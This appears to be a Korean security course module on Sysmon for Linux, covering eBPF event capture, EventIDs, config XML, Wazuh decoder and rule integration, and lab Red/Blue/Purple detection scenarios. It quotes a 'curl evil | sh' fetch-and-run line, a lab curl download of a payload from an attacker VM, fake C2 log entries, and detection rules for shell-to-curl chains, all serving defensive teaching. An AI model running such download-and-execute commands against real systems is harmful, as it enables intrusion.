

# Week 11 — sysmon-for-linux — eBPF 기반 호스트 이벤트 (신규)

> **Microsoft Sysmon for Linux** (2021) = Windows Sysmon 의 Linux 포팅. eBPF +
> auditd 기반으로 process / network / file 이벤트를 실시간 stream. osquery (W07) 가
> "OS 의 SQL snapshot" 이라면 sysmon 은 "OS 의 event stream". 본 주차는 sysmon
> 의 설치 + config + 9 EventID + Wazuh 통합 모두 다룬다.

## 학습 목표

학생은 본 주차 종료 시 다음을 수행할 수 있어야 한다.

1. **sysmon-for-linux 의 정의·역사·라이선스**
2. **eBPF 기반 의 동작** + auditd 와의 차이
3. **9 핵심 EventID** (1 ProcessCreate / 3 NetworkConnect / 11 FileCreate / 등)
4. **config XML 작성** + filter (include / exclude)
5. **SwiftOnSecurity / Olaf Hartong config** 의 표준 사용
6. **Wazuh agent 통합** (localfile + decoder + rule)
7. **osquery vs sysmon** 의 query-based vs event-driven 비교 + 보완 운영
8. **운영 권장** — 호스트별 + noise 관리 + 분기 review

## 강의 시간 배분 (3시간 40분)

| 시간      | 내용                                                                  | 유형 |
|-----------|-----------------------------------------------------------------------|------|
| 0:00–0:30 | 이론 — sysmon 의 정의·역사·왜 필요한가                                  | 강의 |
| 0:30–1:00 | 이론 — eBPF 기반 + 9 EventID                                          | 강의 |
| 1:00–1:10 | 휴식                                                                   | —    |
| 1:10–1:40 | 이론 — config XML + filter 패턴                                       | 강의 |
| 1:40–2:00 | 이론 — Wazuh 통합 (localfile + decoder + rule)                       | 강의 |
| 2:00–2:30 | 실습 1, 2 — 설치 + 가동 확인                                           | 실습 |
| 2:30–2:40 | 휴식                                                                   | —    |
| 2:40–3:10 | 실습 3, 4 — Event 분석 + Wazuh 통합                                    | 실습 |
| 3:10–3:30 | 실습 5 — osquery + sysmon 비교 + R/B/P                                | 실습 |
| 3:30–3:40 | 정리 + W12 (OpenCTI 개론) 예고                                         | 정리 |

---

## 1. sysmon-for-linux 가 등장한 이유

### 1.1 Linux 의 host 가시화 도구 비교 (2024)

| 도구 | 출시 | 모델 | 장점 | 단점 |
|------|------|------|------|------|
| **auditd** | 2003 | kernel audit subsystem | 표준 + 안정 | 출력 형식 비통일, 룰 작성 복잡 |
| **osquery** | 2014 | SQL snapshot | 헌팅 친화, 5 카테고리 | snapshot 한계 (짧은 시간 event 놓침) |
| **falco** | 2016 | runtime security | Kubernetes 친화 | k8s 외 어색 |
| **sysmon-for-linux** | 2021 | event stream (Sysmon 호환) | Sysmon EventID 호환 + eBPF | 모던 (학습 필요) |

### 1.2 Sysmon (Windows) 의 성공

```
Windows Sysmon (2014 Mark Russinovich):
  - SOC 의 가장 표준 호스트 도구
  - 30+ EventID
  - SwiftOnSecurity config 의 community 표준
  - Sigma rule 의 대부분이 Sysmon 기반

Linux 의 동급 도구 부재 → osquery 도 일부 한계
2021 Microsoft 가 Sysmon for Linux 출시 — Sysmon EventID 호환 + eBPF 기반
```

### 1.3 sysmon-for-linux 의 가치

```
1. Sysmon 의 EventID 호환 (1 / 3 / 5 / 11 / 22 / 23 등)
   → SOC 가 Windows + Linux 통합 운영
2. eBPF 기반 (모던 + 성능)
   → 안전 (kernel 안에 verified bytecode 만)
   → 가벼움 (legacy auditd 보다)
3. Sigma rule 의 Linux 호환
   → Detection Engineering 의 표준화
```

---

## 2. eBPF 기반의 동작 원리

### 2.1 eBPF (extended Berkeley Packet Filter)

```
eBPF = 1992 BPF 의 진화 (2014 Alexei Starovoitov)
  - Linux kernel 안에 user 정의 bytecode 안전 실행
  - verifier 가 bytecode 검증 (무한 loop / 비정상 메모리 접근 차단)
  - JIT compiler 가 kernel native 코드 변환
  - 매우 빠름 + 안전

사용처:
  - 네트워크 (XDP / tc): 패킷 처리
  - 보안 (sysmon / falco / tetragon): syscall hooking
  - 트레이싱 (bpftrace / bcc): kernel debug
  - 관찰 (Cilium): kubernetes networking
```

### 2.2 sysmon-for-linux 의 eBPF 활용

```
syscall execve()    →    eBPF probe    →    sysmon 의 logger
fork() / exit()
connect() / accept()
open() / write() / unlink()
        │
        ▼
/var/log/sysmonforlinux.log (또는 syslog) — JSON 또는 XML
```

각 syscall 의 hook 시:
- syscall arguments + caller context (process / user / parent)
- timestamp + process tree
- network packet 의 metadata (5-tuple)
- file path + mode

### 2.3 sysmon vs auditd vs osquery 비교

| 측면 | auditd | osquery | sysmon |
|------|--------|---------|--------|
| 출시 | 2003 | 2014 | 2021 |
| 모델 | kernel audit | SQL snapshot | event stream |
| 시점 | 실시간 (event) | 주기적 (query) | 실시간 (event) |
| backend | netlink | DB | eBPF + audit |
| 출력 | text (비통일) | JSON | XML / JSON |
| 룰 작성 | complex | SQL | XML config |
| Sigma 호환 | △ | △ | ✓ |
| 운영 가치 | 표준 (legacy) | 헌팅 | 이벤트 stream |

**운영 권장**: osquery (헌팅) + sysmon (이벤트 stream) **둘 다** 사용. 보완 관계.

---

## 3. 9 핵심 EventID

Windows Sysmon 의 30+ EventID 중 Linux 의 9 핵심:

### 3.1 Event 1 — ProcessCreate (가장 핵심)

```xml
<Event>
  <System>
    <EventID>1</EventID>
    <TimeCreated SystemTime="2026-05-12T10:30:45.123Z"/>
  </System>
  <EventData>
    <Data Name="UtcTime">2026-05-12 10:30:45.123</Data>
    <Data Name="ProcessGuid">{12345678-1234-1234-1234-123456789012}</Data>
    <Data Name="ProcessId">12345</Data>
    <Data Name="Image">/usr/bin/curl</Data>
    <Data Name="CommandLine">curl -s http://example.com</Data>
    <Data Name="CurrentDirectory">/home/ccc</Data>
    <Data Name="User">ccc</Data>
    <Data Name="LogonGuid">{...}</Data>
    <Data Name="LogonId">1000</Data>
    <Data Name="TerminalSessionId">0</Data>
    <Data Name="IntegrityLevel">High</Data>
    <Data Name="Hashes">SHA256=abc...</Data>
    <Data Name="ParentProcessGuid">{...}</Data>
    <Data Name="ParentProcessId">11111</Data>
    <Data Name="ParentImage">/usr/sbin/sshd</Data>
    <Data Name="ParentCommandLine">sshd: ccc@pts/0</Data>
  </EventData>
</Event>
```

**활용**:
- LOLBin (Living-off-the-Land) detection — 정상 binary 의 악성 사용
- parent process tree — "ssh 가 어떻게 spawn 됐는가"
- command line 분석 — 의심 인자 (예: base64 -d | sh)

### 3.2 Event 3 — NetworkConnect

```xml
<Data Name="Image">/usr/bin/curl</Data>
<Data Name="DestinationIp">6v6-host</Data>
<Data Name="DestinationPort">80</Data>
<Data Name="Protocol">tcp</Data>
```

**활용**:
- C2 communication detection
- 비정상 outbound (예: bash 가 외부 IP conn — 의심)
- DNS exfiltration 의 일부

### 3.3 Event 5 — ProcessTerminate

```xml
<Data Name="ProcessGuid">{...}</Data>
<Data Name="ProcessId">12345</Data>
<Data Name="Image">/usr/bin/curl</Data>
```

**활용**:
- process lifecycle 추적
- 짧은 시간 의 process (실행 직후 종료) 분석

### 3.4 Event 11 — FileCreate

```xml
<Data Name="Image">/usr/bin/curl</Data>
<Data Name="TargetFilename">/tmp/shell.sh</Data>
<Data Name="CreationUtcTime">...</Data>
```

**활용**:
- dropper malware detection (예: curl 이 /tmp 에 shell.sh 생성)
- web shell detection (/var/www/ 에 .php 생성)
- 의심 디렉토리 (/tmp, /var/tmp, /dev/shm) 모니터링

### 3.5 Event 22 — DnsQuery

```xml
<Data Name="ProcessGuid">{...}</Data>
<Data Name="QueryName">attacker.com</Data>
<Data Name="QueryStatus">0</Data>
<Data Name="QueryResults">1.2.3.4</Data>
```

**활용**:
- DGA (Domain Generation Algorithm) detection
- DNS tunneling 의 알려진 도메인 매칭
- malware 의 C2 도메인 검출

### 3.6 Event 23 — FileDelete (선택)

```xml
<Data Name="Image">/usr/bin/shred</Data>
<Data Name="TargetFilename">/tmp/evidence.log</Data>
```

**활용**: anti-forensics detection (shred / wipe).

### 3.7 Event 4 — Sysmon service state change

sysmon 자체의 가동 상태 — 비활성 시 즉시 alert.

### 3.8 Event 9 — RawAccessRead

```xml
<Data Name="Image">/usr/bin/dd</Data>
<Data Name="Device">/dev/sda1</Data>
```

**활용**: raw disk read (filesystem 우회 시도 — 매우 위험).

### 3.9 Event 16 — Sysmon config state changed

sysmon 의 config 변경 추적.

---

## 4. config XML 작성

### 4.1 기본 구조

```xml
<Sysmon schemaversion="4.81">
  <!-- HashAlgorithms — 어느 hash 알고리즘 사용 -->
  <HashAlgorithms>SHA256</HashAlgorithms>

  <EventFiltering>
    <ProcessCreate onmatch="exclude">
      <!-- noise 제외 -->
      <Image condition="end with">apt</Image>
      <Image condition="end with">/cron</Image>
      <Image condition="end with">/systemd</Image>
    </ProcessCreate>

    <NetworkConnect onmatch="include">
      <!-- 핵심 port 만 -->
      <DestinationPort condition="is">22</DestinationPort>
      <DestinationPort condition="is">80</DestinationPort>
      <DestinationPort condition="is">443</DestinationPort>
    </NetworkConnect>

    <FileCreate onmatch="include">
      <!-- 의심 디렉토리만 -->
      <TargetFilename condition="begin with">/tmp/</TargetFilename>
      <TargetFilename condition="begin with">/var/tmp/</TargetFilename>
      <TargetFilename condition="begin with">/dev/shm/</TargetFilename>
    </FileCreate>
  </EventFiltering>
</Sysmon>
```

### 4.2 onmatch + condition

```
onmatch="include" : 매치되는 event 만 기록 (whitelist)
onmatch="exclude" : 매치되는 event 제외 (blacklist)

condition values:
  is                : 정확히 일치
  is not            : 다름
  contains          : 포함
  contains all      : 모든 단어 포함
  contains any      : 단어 중 하나
  excludes          : 제외
  begin with        : 시작
  end with          : 끝
  less than         : 숫자 비교
  more than
  image             : 정확히 path
```

### 4.3 운영 권장 config (SwiftOnSecurity / Olaf Hartong)

```
SwiftOnSecurity 의 Sysmon-Config (Windows 원본):
  https://github.com/SwiftOnSecurity/sysmon-config

Olaf Hartong 의 sysmon-modular:
  https://github.com/olafhartong/sysmon-modular
  - modular 형식 (각 Technique 별 분리)
  - ATT&CK 매핑 명시적

Linux 의 community 표준:
  https://github.com/Sysinternals/SysmonForLinux/blob/main/sysmonconfig-example.xml
```

### 4.4 본 lab 의 권장 config (간소)

```xml
<Sysmon schemaversion="4.81">
  <HashAlgorithms>SHA256</HashAlgorithms>

  <EventFiltering>
    <!-- ProcessCreate — noise 제외 -->
    <ProcessCreate onmatch="exclude">
      <Image condition="end with">/apt</Image>
      <Image condition="end with">/apt-get</Image>
      <Image condition="end with">/dpkg</Image>
      <Image condition="end with">/systemd</Image>
      <Image condition="end with">/cron</Image>
      <Image condition="end with">/logrotate</Image>
    </ProcessCreate>

    <!-- NetworkConnect — 핵심 + 의심 port -->
    <NetworkConnect onmatch="include">
      <DestinationPort condition="is">22</DestinationPort>
      <DestinationPort condition="is">80</DestinationPort>
      <DestinationPort condition="is">443</DestinationPort>
      <DestinationPort condition="is">3389</DestinationPort>
      <DestinationPort condition="is">4444</DestinationPort>  <!-- 자주 사용되는 reverse shell port -->
      <DestinationPort condition="is">8080</DestinationPort>
    </NetworkConnect>

    <!-- FileCreate — 의심 디렉토리 -->
    <FileCreate onmatch="include">
      <TargetFilename condition="begin with">/tmp/</TargetFilename>
      <TargetFilename condition="begin with">/var/tmp/</TargetFilename>
      <TargetFilename condition="begin with">/dev/shm/</TargetFilename>
      <TargetFilename condition="begin with">/var/www/</TargetFilename>
    </FileCreate>

    <!-- DNS -->
    <DnsQuery onmatch="exclude">
      <QueryName condition="end with">.local</QueryName>
      <QueryName condition="end with">.6v6.lab</QueryName>
    </DnsQuery>
  </EventFiltering>
</Sysmon>
```

---

## 5. 설치 + 가동

### 5.1 Microsoft 공식 APT 저장소

```bash
# 1단계: GPG 키 추가
sudo wget -O- https://packages.microsoft.com/keys/microsoft.asc | \
    sudo gpg --dearmor -o /usr/share/keyrings/microsoft.gpg

# 2단계: APT 저장소 추가
echo "deb [arch=amd64 signed-by=/usr/share/keyrings/microsoft.gpg] \
    https://packages.microsoft.com/ubuntu/22.04/prod jammy main" | \
    sudo tee /etc/apt/sources.list.d/microsoft.list

# 3단계: 패키지 설치
sudo apt-get update
sudo apt-get install -y sysmonforlinux
```

### 5.2 config 설치 + 시작

```bash
# config 다운로드 (예시)
sudo wget -O /etc/sysmon.xml \
    https://raw.githubusercontent.com/Sysinternals/SysmonForLinux/main/sysmonconfig-example.xml

# 첫 실행 — EULA accept + config install
sudo sysmon -accepteula -i /etc/sysmon.xml

# systemd 활성
sudo systemctl enable --now sysmon
```

### 5.3 검증

```bash
# config 확인
sudo sysmon -s

# event 발생 확인
sudo journalctl -u sysmon --since "5 min ago"
sudo tail -10 /var/log/syslog | grep -i sysmon

# 또는 /var/log/sysmonforlinux.log
sudo tail /var/log/sysmonforlinux.log
```

---

## 6. Wazuh 통합

### 6.1 agent 측 localfile

```xml
<!-- /var/ossec/etc/ossec.conf 또는 manager 의 shared agent.conf -->
<localfile>
  <log_format>syslog</log_format>
  <location>/var/log/syslog</location>
</localfile>
```

sysmon 이 syslog 로 출력 → Wazuh agent 가 ingest.

### 6.2 manager 측 decoder

```xml
<!-- /var/ossec/etc/decoders/local_decoder.xml -->
<decoder name="sysmon-event1">
  <prematch>EventID: 1</prematch>
  <regex>Image: (\S+).*?CommandLine: (.+?).*?User: (\S+).*?ParentImage: (\S+)</regex>
  <order>image, commandline, user, parent_image</order>
</decoder>

<decoder name="sysmon-event3">
  <prematch>EventID: 3</prematch>
  <regex>Image: (\S+).*?DestinationIp: (\S+).*?DestinationPort: (\S+)</regex>
  <order>image, destination_ip, destination_port</order>
</decoder>
```

### 6.3 manager 측 rule

```xml
<!-- /var/ossec/etc/rules/local_rules.xml -->
<group name="sysmon,linux,">

  <rule id="100700" level="3">
    <decoded_as>sysmon-event1</decoded_as>
    <description>Sysmon — ProcessCreate</description>
  </rule>

  <rule id="100701" level="10">
    <if_sid>100700</if_sid>
    <field name="image">^/tmp/</field>
    <description>Sysmon — Process created from /tmp (의심)</description>
  </rule>

  <rule id="100702" level="10">
    <if_sid>100700</if_sid>
    <field name="parent_image">/usr/bin/curl</field>
    <description>Sysmon — child of curl (download → exec 패턴)</description>
  </rule>

</group>
```

### 6.4 Wazuh 의 기본 sysmon rule

Wazuh 4.10 의 기본 ruleset 에 sysmon 룰 포함:
- `0330-sysmon_rules.xml` (base)
- `0800-sysmon_id_1.xml` (ProcessCreate — Linux 핵심)
- `0810-sysmon_id_3.xml` (NetworkConnect)
- `0830-sysmon_id_11.xml` (FileCreate)
- `0945-sysmon_id_10.xml` (ProcessAccess)

---

## 7. osquery vs sysmon 비교 + 보완

### 7.1 같은 사건의 두 view

```
사건: attacker 가 /tmp/payload 실행

osquery 의 view (다음 query 시 — 5분 후):
  SELECT pid, name, path FROM processes WHERE name='payload';
  결과: pid 12345 / name=payload / path=/tmp/payload
  (단, 실 process 가 5분 안에 종료되면 놓침)

sysmon 의 view (즉시):
  EventID 1 ProcessCreate
  Image=/tmp/payload
  ParentImage=/usr/bin/curl (또는 다른)
  CommandLine=/tmp/payload --c2 attacker.com
  timestamp=2026-05-12 10:30:45
```

**보완**:
- osquery → 헌팅 (특정 시점의 snapshot)
- sysmon → 이벤트 stream (실시간 + 짧은 process 포착)

### 7.2 보완 운영 모델

```
1. sysmon — 실시간 event 캡처 → SOC 분석가가 alert 인지
2. osquery — 헌팅 쿼리 → 분기별 baseline 점검
3. 둘 다 → Wazuh manager 의 alerts.json 에 통합
4. ATT&CK Navigator → Coverage Matrix 측정
```

---

## 8. ATT&CK 매핑

본 주차의 sysmon 활용 = 모든 ATT&CK Technique 의 detect 가능.

| Technique | sysmon Event |
|-----------|--------------|
| T1059 Command Execution | Event 1 ProcessCreate |
| T1071 C2 | Event 3 NetworkConnect |
| T1505.003 Web Shell | Event 11 FileCreate on /var/www |
| T1543 systemd | Event 1 (systemd-* parent) |
| T1547.006 LD_PRELOAD | Event 1 의 환경 변수 |
| T1574 Hijack Execution Flow | Event 1 의 parent 분석 |
| T1083 File Discovery | Event 1 + 11 |

---

## 9. R/B/P 시나리오 — sysmon detection 1 사이클



---

## 10. 실습 1~5

### 실습 1 — sysmon 설치 상태 확인 (시뮬)

```bash
ssh 6v6-web '
echo "=== sysmon 설치 확인 ==="
which sysmon 2>&1
apt-cache policy sysmonforlinux 2>&1 | head -5
ls -la /var/log/sysmonforlinux.log 2>&1
echo ""
echo "본 lab 환경에 sysmon 미설치 — W11 학습은 패턴 + Wazuh 통합 시뮬"
'
```

### 실습 2 — config XML 작성 + syntax 검증

```bash
ssh 6v6-web '
cat > /tmp/sysmon-config.xml <<EOF
<Sysmon schemaversion="4.81">
  <HashAlgorithms>SHA256</HashAlgorithms>
  <EventFiltering>
    <ProcessCreate onmatch="include">
      <Image condition="begin with">/tmp/</Image>
      <Image condition="begin with">/var/tmp/</Image>
      <Image condition="begin with">/dev/shm/</Image>
    </ProcessCreate>

    <NetworkConnect onmatch="include">
      <DestinationPort condition="is">22</DestinationPort>
      <DestinationPort condition="is">4444</DestinationPort>
      <DestinationPort condition="is">8080</DestinationPort>
    </NetworkConnect>

    <FileCreate onmatch="include">
      <TargetFilename condition="begin with">/tmp/</TargetFilename>
      <TargetFilename condition="begin with">/var/www/</TargetFilename>
    </FileCreate>
  </EventFiltering>
</Sysmon>
EOF

cat /tmp/sysmon-config.xml
echo ""
echo "=== XML syntax (xmllint) 검증 ==="
xmllint --noout /tmp/sysmon-config.xml 2>&1 && echo "VALID" || echo "INVALID"
'
```

### 실습 3 — Event 1 시뮬 (수동 명령)

```bash
ssh 6v6-web '
# sysmon 미설치 → 명령 실행만 시뮬
echo "=== Event 1 ProcessCreate 시뮬 ==="

# curl 으로 fake payload 다운로드 + 실행 (영향 없는 명령)
curl -s http://10.20.30.1/ -o /tmp/test_payload 2>&1 | head
ls -la /tmp/test_payload
file /tmp/test_payload

# 정리
rm -f /tmp/test_payload

echo ""
echo "sysmon 가 가동 중이라면 다음 Event 발생:"
echo "  Event 11 FileCreate /tmp/test_payload (by curl)"
echo "  Event 1 ProcessCreate curl (parent: bash)"
'
```

### 실습 4 — Wazuh 통합 시뮬

```bash
ssh 6v6-web '
echo "=== /var/log/syslog 의 sysmon event 시뮬 ==="
# sysmon 미설치 → fake syslog 줄 추가 (학습 시뮬)
echo "$(date) sysmon: EventID: 1 Image: /tmp/payload CommandLine: /tmp/payload --c2 1.2.3.4 User: ccc ParentImage: /usr/bin/curl" | \
    sudo tee -a /var/log/syslog

echo ""
echo "=== Wazuh decoder + rule 시뮬 ==="
echo "decoder: sysmon-event1 매치"
echo "rule: 100701 (level 10) — process from /tmp"
echo "alerts.json 에 기록 예상 (실 활성 시)"
'
```

### 실습 5 — osquery vs sysmon 비교

```bash
ssh 6v6-web '
echo "=== osquery 의 processes 스냅샷 ==="
sudo osqueryi --json "SELECT pid, name, cmdline, parent FROM processes WHERE name=\"curl\" LIMIT 3;" 2>&1 | head

echo ""
echo "=== sysmon 가 본 view (가상) ==="
echo "Event 1 ProcessCreate:"
echo "  - Image: /usr/bin/curl"
echo "  - CommandLine: curl -s http://10.20.30.1/"
echo "  - ParentImage: /bin/bash"
echo "  - timestamp: $(date -Iseconds)"
echo ""
echo "비교:"
echo "  osquery: snapshot — 현재 실행 중 process 만"
echo "  sysmon: stream — 모든 ProcessCreate event (실 끝난 것 포함)"
'
```

---

## 11. R/B/P 보고서

```markdown
# W11 R/B/P 보고서 — sysmon-for-linux

## Red 측 (시뮬)
- /tmp 에 payload 생성 (curl)
- payload 실행 (Event 1 의 parent: curl 패턴)
- C2 outbound (Event 3 의 dst port)

## Blue 측 (sysmon 가동 가정)
| Event | sysmon detect | osquery detect |
| 1 ProcessCreate | ✓ (실시간) | ✓ (5분 안에 query 시) |
| 3 NetworkConnect | ✓ | △ (socket 의 활성만) |
| 11 FileCreate | ✓ | △ (file_events 활성 시) |
| 22 DnsQuery | ✓ | ✗ |

총 Coverage: sysmon 100% / osquery 50%

## Purple 측 권장
1. sysmon 4 호스트 (fw / ips / web / bastion) 설치
2. config 의 noise 제외 (apt / cron / systemd-)
3. Wazuh decoder + rule (100700-100702 시리즈)
4. osquery + sysmon 보완 운영
5. ATT&CK Navigator 의 Coverage 측정
```

---

## 11.5 R/B/P 공격 분석 케이스 확장 (본 주차 추가)

### 11.5.0 R/B/P 일상 비유 — 매장 안의 행위 카메라 + 음성 녹음 + 출입문 센서

본 절은 sysmon-for-linux 의 host event stream 을 매장 안 행위 카메라 비유로 시작한다.

학생이 자주 가는 편의점을 떠올려보자. 편의점에는 정문 cctv (네트워크 IDS) 와 함께 매장 안의 다음 세 가지 도구가 있다.

- **행위 카메라 (Event 1 ProcessCreate)** — 누가 매장에 들어와 어떤 행동을 시작했는지 매번 한 줄로 기록.
- **출입문 센서 (Event 3 NetworkConnect)** — 매장 안에서 외부로 통신한 모든 시도를 기록.
- **상품 진열대 센서 (Event 11 FileCreate)** — 매장 안에 새로 들여놓은 물건 (파일) 을 기록.

osquery (W07) 는 매장의 한 순간의 정지 사진 (snapshot) 이었다면, sysmon 은 매장의 행위가 실시간으로 흘러가는 영상 (stream) 이다. 한 도둑이 매장 안에서 한 행위 (`bash -c 'curl evil | sh'`) 가 발생하는 즉시 한 줄로 기록되고 SIEM 으로 흘러간다.

| 일상 비유 | sysmon Event |
|-----------|--------------|
| 행위 카메라 | Event 1 ProcessCreate |
| 출입문 센서 | Event 3 NetworkConnect |
| 상품 진열대 센서 | Event 11 FileCreate |
| 음성 키워드 (DNS) | Event 22 DnsQuery |
| 매장의 실시간 stream | sysmon event stream → Wazuh |

본 절은 다음 세 케이스를 다룬다.

- 케이스 1 — bash → curl → 외부 IP 의 chain 을 Event 1 + Event 3 으로 추적.
- 케이스 2 — `/tmp/` 의 신규 binary drop 을 Event 11 + Event 1 의 결합으로 식별.
- 케이스 3 — DNS C2 callback 의심 패턴을 Event 22 의 DnsQuery 로 분석.

원칙은 W01 ~ W10 와 같다. 재현 가능성, 도구 위주 분석, 신입생 친화, 학습 환경 한정.

### 11.5.1 케이스 1 — bash → curl → 외부 IP 의 process + network chain 추적

**0. 일상 비유 — 도둑이 매장 안에서 외부로 전화 거는 행위.**

도둑이 매장 안에서 한 사람의 행위가 다음 두 단계로 연결된다. 1) 행위 카메라가 "어떤 사람이 휴대폰을 꺼냄" 을 기록. 2) 출입문 센서가 "그 휴대폰이 외부로 통신" 을 기록. 두 event 의 parent-child 관계가 동일 사건의 두 측면이다. 단일 event 만으로는 위협 신호가 약하지만, 두 event 의 chain 은 직접 증거가 된다.

| 일상 비유 | sysmon chain |
|-----------|--------------|
| 휴대폰을 꺼내는 행위 | Event 1 ProcessCreate (bash → curl) |
| 외부 통신 | Event 3 NetworkConnect |
| 같은 사람 | 같은 ProcessGuid 또는 ParentProcessGuid |
| chain 식별 | Wazuh rule 의 if_matched_sid + sysmon.ProcessGuid |

**0a. 사용 도구 사전 안내.**

- **sysmon Event 1 ProcessCreate** — 모든 process 생성 시점.
- **sysmon Event 3 NetworkConnect** — 모든 outbound network connection.
- **ProcessGuid** — process 의 고유 ID. 한 process 의 모든 event 가 같은 GUID 를 공유한다.
- **Wazuh Dashboard 의 Discover.**

**1. Red — 공격 재현.**

attacker VM 에서 web VM 에 SSH 로 들어간 뒤 bash 안에서 외부로 통신하는 시뮬을 실행한다. 학습 환경 한정으로 실행한다.

```bash
ssh 6v6-attacker

ssh -o StrictHostKeyChecking=no admin@10.20.32.80

# web VM 안 (학습 환경 한정)
bash -c 'curl -s -o /tmp/local_payload http://10.20.30.202:8080/ || true'
```

각 줄의 의미는 다음과 같다.

- `bash -c '...'` — bash subshell 에서 한 줄 명령 실행.
- `curl -s -o /tmp/local_payload http://...` — attacker VM 의 http 서버에서 임시 파일을 받는 시뮬. 외부 C2 callback 의 단순화된 형태.
- `|| true` — 실패해도 종료 코드 0. event 발생만 보장.

6v6-attacker (10.20.30.202) 에 8080 의 simple HTTP server 가 띄워져 있다고 가정한다. 없으면 connection refused 가 나도 Event 3 자체는 발생한다. web VM (dmz) → attacker VM (ext) 의 dmz→ext forward 경로는 학습 환경의 fw 가 의도적으로 허용한다.

**2. 발생하는 로그/아티팩트.**

web VM 의 sysmon 이 다음 두 event 를 syslog 로 보낸다.

```
Event 1 ProcessCreate:
  Image=/usr/bin/bash, CommandLine="bash -c 'curl -s ...'"
  ProcessGuid={...A}, ParentImage=/usr/sbin/sshd

Event 1 ProcessCreate:
  Image=/usr/bin/curl, CommandLine="curl -s -o /tmp/local_payload http://..."
  ProcessGuid={...B}, ParentProcessGuid={...A}

Event 3 NetworkConnect:
  Image=/usr/bin/curl, ProcessGuid={...B}
  DestinationIp=10.20.30.202, DestinationPort=8080
```

핵심은 다음 두 가지다. bash 의 ProcessGuid 가 curl 의 ParentProcessGuid 와 일치한다 (parent-child 관계). curl 의 ProcessGuid 가 Event 3 의 ProcessGuid 와 일치한다 (같은 process 의 network).

같은 사건이 Wazuh 의 alerts.json 에도 통합 alert 로 다시 기록된다.

**3. Blue — Wazuh Dashboard 에서 두 event chain 직접 분석.**

학생이 자기 host 의 web browser 에서 Wazuh Dashboard 에 접속한다.

UI 클릭 흐름은 다음과 같다.

1. 좌측 햄버거 메뉴 → `Discover` 선택.
2. Index pattern 을 `wazuh-alerts-*` 로 바꾼다.
3. Time picker `Last 15 minutes`.
4. Search bar 에 `agent.name:web AND rule.groups:sysmon AND data.sysmon.Image:*curl*` 입력 후 Enter.
5. 결과 한 줄을 펼친다. `data.sysmon.ProcessGuid`, `data.sysmon.ParentImage`, `data.sysmon.CommandLine`, `data.sysmon.DestinationIp` 를 확인한다.

다음으로 같은 ProcessGuid 의 다른 event 도 본다.

1. Search bar 에 `data.sysmon.ProcessGuid:"{... 위에서 본 GUID ...}"` 입력.
2. 결과로 Event 1 (ProcessCreate) 과 Event 3 (NetworkConnect) 두 줄이 보인다.

ParentProcessGuid 로 bash 의 Event 1 도 찾을 수 있다.

```
Search: data.sysmon.ProcessGuid:"{...A}" OR data.sysmon.ParentProcessGuid:"{...A}"
```

세 event 의 chain (bash Event 1 → curl Event 1 → curl Event 3) 이 한 화면에 보인다.

**4. Blue — 대응 의사결정.**

학생이 다음 세 가지를 판단한다.

- **단일 event vs chain.** 단일 Event 3 만으로는 정상 download 와 구분이 어렵다. parent 가 bash 이고 destination 이 외부 IP 이면 의심도가 크게 올라간다.
- **destination IP 의 reputation.** 학습 환경에서는 6v6-attacker (10.20.30.202) 다. 운영 환경에서는 CTI feed 의 known bad IP 와 매칭한다 (W13 학습).
- **즉시 차단 vs 모니터링.** parent=bash + destination=외부 + binary=/usr/bin/curl 의 결합 패턴은 즉시 격리가 안전하다.

**5. Purple — sysmon chain rule 작성.**

다음 한 줄짜리 chain rule 을 Wazuh manager 에 추가한다.

```xml
<group name="sysmon,local,">
  <rule id="100500" level="12">
    <if_matched_sid>61603</if_matched_sid>
    <field name="data.sysmon.ParentImage">/usr/bin/bash$|/bin/bash$|/bin/sh$</field>
    <field name="data.sysmon.Image">/usr/bin/curl$|/usr/bin/wget$</field>
    <description>LOCAL Suspicious shell to network tool chain: $(data.sysmon.CommandLine)</description>
  </rule>
</group>
```

(`if_matched_sid` 의 정확한 값은 학습 환경의 Wazuh 기본 sysmon rule id 에 맞게 조정.)

핵심은 다음 세 가지다.

- **parent + child 결합.** bash 또는 sh 에서 curl 또는 wget 으로의 chain.
- **level 12.** 즉시 SOC 알람.
- **CommandLine 보존.** description 에 CommandLine 을 포함해 다음 분석의 단서로 활용.

본 케이스 cycle 한 바퀴는 약 25분 정도다.

### 11.5.2 케이스 2 — `/tmp/` 의 신규 binary drop + 즉시 실행 chain

**0. 일상 비유 — 도둑이 매장 진열대에 새 물건을 놓고 그 자리에서 사용.**

도둑이 매장 안의 진열대 (`/tmp/`) 에 새 물건 (binary) 을 슬쩍 놓고, 그 즉시 자기가 가져온 물건을 작동시킨다. 진열대 센서 (Event 11 FileCreate) 가 새 물건의 등장을 즉시 기록하고, 행위 카메라 (Event 1 ProcessCreate) 가 그 물건이 작동하는 순간을 기록한다. 두 event 의 짧은 시간 간격이 핵심 단서다.

| 일상 비유 | sysmon chain |
|-----------|--------------|
| 진열대에 새 물건 | Event 11 FileCreate at /tmp/ |
| 그 자리 작동 | Event 1 ProcessCreate of /tmp/<binary> |
| 짧은 시간 간격 | 두 event 의 timestamp 차이 < 1초 |
| 의심 위치 | `/tmp/`, `/dev/shm/`, `/var/tmp/` |

**0a. 사용 도구 사전 안내.**

- **sysmon Event 11 FileCreate** — 새 파일 생성 시점.
- **sysmon Event 1 ProcessCreate** — 새 process 시작 시점.
- **Discover 의 timestamp range query.**

**1. Red — 공격 재현.**

attacker VM 에서 web VM 에 SSH 진입 후 `/tmp/` 에 binary 를 만들어 즉시 실행한다.

```bash
ssh 6v6-attacker
ssh -o StrictHostKeyChecking=no admin@10.20.32.80

# web VM 안 (학습 환경 한정)
sudo cp /usr/bin/whoami /tmp/local_test_drop
sudo chmod +x /tmp/local_test_drop
sudo /tmp/local_test_drop
```

각 줄의 의미는 다음과 같다.

- `cp /usr/bin/whoami /tmp/local_test_drop` — 정상 binary 를 의심 위치에 복사. Event 11 FileCreate 발생.
- `chmod +x` — 실행 권한.
